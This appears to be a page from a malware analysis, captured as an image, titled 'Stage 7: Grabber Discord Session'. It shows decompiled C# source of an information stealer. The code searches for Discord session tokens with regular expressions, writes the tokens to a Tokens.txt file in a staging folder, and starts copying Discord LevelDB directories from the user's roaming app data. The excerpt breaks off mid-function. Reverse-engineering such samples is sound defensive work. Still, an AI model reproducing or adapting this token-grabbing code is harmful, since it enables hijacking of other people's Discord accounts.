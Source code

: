 # Stage 7: Grabber Discord Session

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Text.RegularExpressions;
using Helpers;
using Main;

namespace Messengers
{
	// Token: 0x02000004 RID: 4
	internal class Discord
	{
		// Token: 0x06000008 RID: 8 RVA: 0x00002534 File Offset: 0x00000734
		public static void GrabberDiscordToken()
		{
			try
			{
				bool flag = Directory.Exists(Variables.workdir + "\\Grabbers\\Discord");
				if (flag)
				{
					Directory.Delete(Variables.workdir + "\\Grabbers\\Discord", true);
				}
				string text = Variables.workdir + "\\Grabbers\\Discord";
				string[] array = Discord.GetTokens(Discord.TokenRegexs[0]);
				bool flag2 = array.Length == 0;
				if (flag2)
				{
					array = Discord.GetTokens(Discord.TokenRegexs[1]);
					bool flag3 = array.Length == 0;
					if (flag3)
					{
						array = Discord.GetTokens(Discord.TokenRegexs[2]);
					}
				}
				bool flag4 = array.Length != 0;
				if (flag4)
				{
					Directory.CreateDirectory(text);
					foreach (string text2 in array)
					{
						File.AppendAllText(text + "\\Tokens.txt", text2 + "\n");
					}
				}
				Discord.CopyLevelDb();
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
		}

		// Token: 0x06000009 RID: 9 RVA: 0x00002634 File Offset: 0x00000834
		private static void CopyLevelDb()
		{
			string text = Variables.workdir + "\\Grabbers\\Discord";
			foreach (string text2 in Discord.DiscordDirectories)
			{
				string directoryName = Path.GetDirectoryName(Path.Combine(Variables.roamingappdata, text2));
				string text3 = Path.Combine(text, new DirectoryInfo(directoryName).Name);
```